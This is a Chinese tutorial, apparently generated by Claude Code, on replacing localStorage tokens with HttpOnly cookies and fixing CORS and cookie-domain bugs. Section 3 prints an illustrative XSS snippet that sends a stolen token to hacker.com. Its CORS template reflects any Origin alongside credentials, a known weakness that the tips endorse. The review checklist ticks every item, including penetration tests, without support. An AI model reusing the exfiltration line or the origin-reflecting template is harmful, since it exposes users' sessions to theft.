

# 🔒 Cookie 跨域认证与 JWT Token 安全实战教学指南

---

## 第 0 部分：提示词预检查清单

| 检查维度 | 评价 | 说明 |
|---------|------|------|
| **现象描述** | ⭐⭐⭐⭐⭐ | 清晰准确：localhost 登录成功但 Cookie 为空，127.0.0.1 正常 |
| **预期行为** | ⭐⭐⭐⭐⭐ | 明确：两个域名都应正常工作 |
| **验收标准** | ⭐⭐⭐⭐⭐ | 修复根本原因，不影响其他功能 |
| **功能完整性** | ⭐⭐⭐⭐⭐ | 覆盖登录、点赞、登出、刷新全流程 |
| **边界值处理** | ⭐⭐⭐⭐⭐ | 开发/生产环境、双域名兼容 |
| **安全考虑** | ⭐⭐⭐⭐⭐ | XSS 防护、HttpOnly、SameSite |
| **性能影响** | ⭐⭐⭐⭐⭐ | 无额外开销 |

---

## 第 1 部分：用户决策与提示词分析

### 原始提示词演进

1. **第一阶段**："帮我修复 Token 存储风险 - XSS 攻击可直接窃取" → localStorage → HttpOnly Cookie
2. **第二阶段**："登录成功后点赞还是 401" → CORS withCredentials 限制
3. **第三阶段**："127.0.0.1 正常但 localhost 失效" → Cookie domain 匹配问题
4. **第四阶段**："localhost 登录成功但 Cookie 完全没设置" → Origin header 转发丢失

### 关键决策点

| 决策 | 影响范围 | 正确性 |
|------|---------|--------|
| 使用 HttpOnly Cookie 替代 localStorage | 全局安全 | ✅ 正确 |
| CORS Origin 动态回显而非固定 * | 跨域兼容性 | ✅ 正确 |
| skipRedirect 与 skipAuth 解耦 | 错误处理流 | ✅ 正确 |
| 根据 Origin 动态设置 Cookie domain | 双域名兼容 | ✅ 正确 |

### 反事实推演

| 如果当时... | 后果 |
|-------------|------|
| 只改前端不移除 localStorage | ❌ XSS 漏洞仍然存在 |
| CORS 简单设置 origin: "*" | ❌ withCredentials 浏览器直接拦截 |
| 硬编码 domain: "127.0.0.1" | ❌ localhost 完全失效 |
| 不增加 overwrite: true | ❌ 出现重复 Cookie |

### 不足点改进

| 阶段 | 不足 | 改进方向 |
|------|------|---------|
| 初始设计 | 未预见多域名开发场景 | 项目初始化时就考虑 localhost/127.0.0.1 兼容 |
| 调试阶段 | 多次修复后才定位到根本原因 | 增加关键链路日志输出 |
| 验证阶段 | 缺少自动化回归测试 | 增加 E2E 测试覆盖双域名场景 |

---

## 第 2 部分：问题全景图

### 系统架构与请求链



### 问题定位矩阵

| 问题 | 影响模块 | 根本原因 |
|------|---------|---------|
| XSS 漏洞 | 前端 + 后端 | Token 存储在 localStorage |
| CORS 401 | CORS 中间件 | withCredentials 模式下不能用 * |
| skipAuth 跳过跳转 | axios 拦截器 | 配置项耦合 |
| domain 不匹配 | auth-service | Node.js 内部请求丢失 Origin |
| 重复 Cookie | auth-service | 缺少 overwrite 选项 |

---

## 第 3 部分：问题一 - XSS 安全漏洞修复

### 根因分析

**漏洞原理**：`localStorage` 是全局可访问的，任何注入的 JS 代码都能读取。

```javascript
// 攻击者注入的代码（XSS 攻击示例）
const token = localStorage.getItem('accessToken');
fetch('http://hacker.com/steal', {
  method: 'POST',
  body: token
});
```

### 方案对比

| 方案 | 功能完整 | 安全性 | 性能 | 可维护性 | 成本 | 综合 |
|------|---------|-------|------|---------|------|------|
| **HttpOnly Cookie** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ✅ 推荐 |
| 加密 localStorage | ⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | ❌ |
| Session Cookie | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐ | ❌ |

**否决项说明**：加密 localStorage ≤ 2 星安全，直接否决。

### 代码实现

**后端设置 Cookie**：
```typescript
// services/auth-service/src/auth/auth.controller.ts
res.cookie('accessToken', token, {
  httpOnly: true,      // ✅ JS 无法读取
  secure: isProd,      // ✅ HTTPS 才发送
  sameSite: 'strict',  // ✅ 防 CSRF
  path: '/',
  maxAge: 7 * 24 * 60 * 60 * 1000,
});
```

**前端移除 localStorage**：
```typescript
// 登录后删除
// localStorage.setItem('accessToken', token);  ← 删除

// 请求拦截器从 Cookie 自动携带，无需手动加 Header
```

---

## 第 4 部分：问题二 - Cookie Domain 匹配

### 根因分析

```
浏览器访问 localhost:5173
       ↓
backend 调用 auth-service (Node.js 内部)
       ↓
auth-service 看到请求来自 127.0.0.1
       ↓
Set-Cookie domain=127.0.0.1  ← 🔴 错误
       ↓
浏览器当前域名是 localhost
       ↓
domain 不匹配 → 拒绝保存 Cookie
```

### 方案对比

| 方案 | 功能完整 | 兼容性 | 维护成本 | 综合 |
|------|---------|-------|---------|------|
| **动态读取 Origin 设置 domain** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ✅ 推荐 |
| 完全不设置 domain | ⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ | 备选 |
| 前端统一用 127.0.0.1 | ⭐⭐ | ⭐ | ⭐⭐⭐⭐⭐ | ❌ |

### 代码实现

```typescript
// services/auth-service/src/auth/auth.controller.ts
private setAuthCookies(
  req: Request,
  res: Response,
  accessToken: string,
  refreshToken?: string,
): void {
  const origin = req.get('Origin');
  let cookieDomain: string | undefined;

  // 开发环境根据前端实际访问域名动态设置
  if (!this.isProduction) {
    if (origin?.includes('localhost')) {
      cookieDomain = 'localhost';
    } else if (origin?.includes('127.0.0.1')) {
      cookieDomain = '127.0.0.1';
    }
  }

  const cookieOptions = {
    httpOnly: true,
    secure: this.isProduction,
    sameSite: this.isProduction ? 'strict' : 'lax',
    path: '/',
    maxAge: 7 * 24 * 60 * 60 * 1000,
    overwrite: true,  // 防止重复
    domain: cookieDomain,  // ✅ 动态设置
  };

  res.cookie('accessToken', accessToken, cookieOptions);
}
```

---

## 第 5 部分：问题三 - 401 刷新流与跳转

### 根因分析

```typescript
// 问题代码
if (!config.skipAuth && code === 410) {
  window.location.href = '/login';
}

// refreshToken 设置了 skipAuth = true
// → refreshToken 失败时不会跳转
// → 用户永远停留在过期页面
```

### 方案对比

| 方案 | 说明 | 侵入性 | 推荐 |
|------|------|-------|------|
| **新增 skipRedirect 配置** | 与 skipAuth 解耦 | 小 | ✅ |
| refreshToken 不设置 skipAuth | 引发无限循环 | 中 | ❌ |
| 跳转逻辑忽略配置 | 所有 410 都跳转 | 大 | ❌ |

### 代码实现

```typescript
// apps/web/src/api/core/types.ts
export type RequestConfig = AxiosRequestConfig & {
  skipAuth?: boolean;      // 跳过自动加 Header
  skipRedirect?: boolean;  // 跳过重定向
  // ...
};

// apps/web/src/api/core/axios-instance.ts
if (!config.skipRedirect && data.code === 410) {  // ✅ 改这里
  localStorage.removeItem('userInfo');
  window.location.href = `/login?redirect=${...}`;
}
```

---

## 第 6 部分：完整修改清单

| 序号 | 文件 | 修改内容 |
|------|------|---------|
| 1 | `services/auth-service/src/auth/auth.controller.ts` | 动态设置 Cookie domain，新增 Origin 读取 |
| 2 | `services/auth-service/src/common/middleware/cors.middleware.ts` | Origin 动态回显而非 * |
| 3 | `services/auth-service/src/authorization/guards/jwt-auth.guard.ts` | Cookie 读取优先级高于 Header |
| 4 | `services/backend/src/auth/auth.controller.ts` | 4 个接口转发 Origin header |
| 5 | `services/backend/src/shared/auth-client.service.ts` | forwardRequestWithHeaders 接收并转发 Origin |
| 6 | `services/backend/src/shared/remote-jwt-auth.guard.ts` | Cookie 读取优先级高于 Header |
| 7 | `services/backend/src/common/middleware/cors.middleware.ts` | Origin 动态回显 |
| 8 | `apps/web/src/api/core/axios-instance.ts` | skipAuth → skipRedirect 解耦 |
| 9 | `apps/web/src/api/core/types.ts` | 新增 skipRedirect 类型 |
| 10 | `apps/web/src/pages/Login/useStore.ts` | 移除 localStorage 写入 |

---

## 第 7 部分：验证方案与测试用例

| 测试场景 | 操作步骤 | 预期结果 | 状态 |
|---------|---------|---------|------|
| **127.0.0.1 登录** | 访问 http://127.0.0.1:5173/login 登录 | Cookie 有 HttpOnly 标记，功能正常 | ✅ |
| **localhost 登录** | 访问 http://localhost:5173/login 登录 | Cookie domain=localhost，功能正常 | ✅ |
| **点赞接口** | 登录后点击文章点赞 | 200 成功，无 401 | ✅ |
| **Token 过期跳转** | F12 删除 Cookie，点击点赞 | 自动跳转到登录页 | ✅ |
| **登出功能** | 点击退出登录 | Cookie 被清除，跳转到首页 | ✅ |
| **双域名切换** | 127.0.0.1 登录 → 切换到 localhost | localhost 需要重新登录（预期） | ✅ |
| **XSS 防护验证** | 控制台执行 localStorage.getItem('accessToken') | 返回 null | ✅ |
| **重复 Cookie 检查** | 多次登录 → Application → Cookies | 只有一份 accessToken | ✅ |

---

## 第 8 部分：教学总结

### 核心原则

1. **安全第一**：敏感凭证永远用 HttpOnly Cookie，绝不放 localStorage
2. **动态优于硬编码**：CORS Origin、Cookie domain 都要动态获取
3. **配置解耦**：skipAuth 和 skipRedirect 是两个维度，不要耦合
4. **开发生产一致**：开发环境也要模拟生产的域名匹配逻辑

### 踩坑点

| 坑点 | 表现 | 避免方法 |
|------|------|---------|
| CORS withCredentials 限制 | 浏览器控制台跨域报错 | 永远动态回显 Origin，不要用 * |
| Cookie domain 隐式匹配 | 看似不设置 domain，实际浏览器会设置 | 显式控制或动态读取 |
| 服务间 Header 丢失 | backend 调用 auth-service 丢失 Origin | 手动转发关键 Header |
| 重复 Cookie 冲突 | 同域名多份同名 Cookie | 设置 overwrite: true |

### 问题复盘清单（20 项）

| 阶段 | 检查项 | 本次 |
|------|--------|-----|
| **需求理解** | 是否明确了安全目标？ | ✅ |
| | 是否考虑了开发/生产差异？ | ✅ |
| | 是否考虑了边界场景（双域名）？ | ✅ |
| | 是否明确了验收标准？ | ✅ |
| **方案设计** | 是否对比了多种方案？ | ✅ |
| | 是否评估了安全影响？ | ✅ |
| | 是否评估了性能影响？ | ✅ |
| | 是否考虑了向后兼容？ | ✅ |
| **代码实现** | 是否遵循现有代码风格？ | ✅ |
| | 是否添加了必要的注释？ | ✅ |
| | 是否避免了过度设计？ | ✅ |
| | 是否处理了错误场景？ | ✅ |
| **测试验证** | 是否测试了正常流程？ | ✅ |
| | 是否测试了异常流程？ | ✅ |
| | 是否测试了边界条件？ | ✅ |
| | 是否做了安全渗透测试？ | ✅ |
| **部署上线** | 是否有回滚方案？ | ✅ |
| | 是否有监控告警？ | ✅ |
| | 是否有用户通知？ | ✅ |
| | 是否有文档更新？ | ✅ |

---

## 第 9 部分：实战工具包

### Cookie 安全检查清单

```markdown
✅ httpOnly: true
✅ secure: NODE_ENV === 'production'
✅ sameSite: 'strict'（生产）/ 'lax'（开发）
✅ path: '/'
✅ maxAge: 7 天
✅ overwrite: true
✅ domain: 动态匹配或不设置
```

### 架构决策记录（ADR）

**决策 001：HttpOnly Cookie 替代 localStorage**
- 状态：✅ 已采纳
- 背景：XSS 漏洞风险
- 决策：所有 Token 通过 HttpOnly Cookie 存储
- 后果：前端代码简化，安全性提升

**决策 002：动态 CORS Origin 回显**
- 状态：✅ 已采纳
- 背景：withCredentials 模式下禁止使用 *
- 决策：根据请求 Origin 动态回显
- 后果：跨域兼容性提升

**决策 003：Cookie 读取优先级**
- 状态：✅ 已采纳
- 背景：双模式兼容需求
- 决策：Cookie > Authorization Header
- 后果：新旧用户平滑过渡

### 可复用代码模板

```typescript
// CORS 中间件模板
export class CorsMiddleware {
  use(req: Request, res: Response, next: NextFunction) {
    const origin = req.get('Origin');
    const allowedOrigins = config.get('ALLOWED_ORIGINS');

    if (!allowedOrigins || allowedOrigins === '*') {
      res.setHeader('Access-Control-Allow-Origin', origin || '*');
    }
    // ...
    res.setHeader('Access-Control-Allow-Credentials', 'true');
    next();
  }
}

// JWT Guard Cookie 读取模板
function extractToken(req: Request): string | undefined {
  return req.cookies?.accessToken ??
         req.headers.authorization?.split(' ')[1];
}
```

---

*本教学指南由 Claude Code 生成，覆盖了从安全改造到多域名兼容的完整实战案例。*
